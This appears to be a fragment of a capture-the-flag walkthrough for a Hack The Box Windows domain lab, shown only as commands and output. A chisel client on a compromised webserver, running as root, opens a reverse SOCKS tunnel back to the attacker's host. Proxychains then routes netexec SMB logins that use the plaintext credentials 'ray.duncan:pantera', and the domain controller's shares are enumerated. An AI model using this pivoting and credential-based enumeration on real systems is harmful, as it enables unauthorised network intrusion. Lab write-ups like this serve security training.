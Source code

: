 ```bash
$ /opt/chisel/v1.9.1/chisel server -p 8000 --reverse 
2024/08/26 01:45:05 server: Reverse tunnelling enabled
2024/08/26 01:45:05 server: Fingerprint UQnp22WDmFc2sTt4WHvyHHiJYYUYZF+Z9CGKB6NNVHA=
2024/08/26 01:45:05 server: Listening on http://0.0.0.0:8000
```

```bash
root@webserver:~# chmod +x chisel 
root@webserver:~# ./chisel client 10.10.14.8:8000 R:socks
2024/08/26 10:46:29 client: Connecting to ws://10.10.14.8:8000
2024/08/26 10:46:30 client: Connected (Latency 91.151ms)
```

```bash
$ /opt/chisel/v1.9.1/chisel server -p 8000 --reverse
...
2024/08/26 01:47:15 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

```bash
$ cat /etc/proxychains4.conf
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5         127.0.0.1 1080
#socks5         127.0.0.1 1081
#http           127.0.0.1 8080
```

```bash
$ proxychains netexec smb hope.windcorp.htb -k -u 'ray.duncan' -p 'pantera'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
SMB         hope.windcorp.htb 445    hope             [*]  (name:hope) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         hope.windcorp.htb 445    hope             [+] windcorp.htb\ray.duncan:pantera
```

```bash
$ proxychains netexec smb hope.windcorp.htb -k -u 'ray.duncan' -p 'pantera' --shares 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
SMB         hope.windcorp.htb 445    hope             [*]  (name:hope) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         hope.windcorp.htb 445    hope             [+] windcorp.htb\ray.duncan:pantera 
SMB         hope.windcorp.htb 445    hope             [*] Enumerated shares
SMB         hope.windcorp.htb 445    hope             Share           Permissions     Remark
SMB         hope.windcorp.htb 445    hope             -----           -----------     ------
SMB         hope.windcorp.htb 445    hope             ADMIN$                          Remote Admin
SMB         hope.windcorp.htb 445    hope             C$                              Default share
SMB         hope.windcorp.htb 445    hope             IPC$            READ            Remote IPC
SMB         hope.windcorp.htb 445    hope             NETLOGON        READ            Logon server share 
SMB         hope.windcorp.htb 445    hope             SYSVOL          READ            Logon server share 
SMB         hope.windcorp.htb 445    hope             WC-Share        READ
```
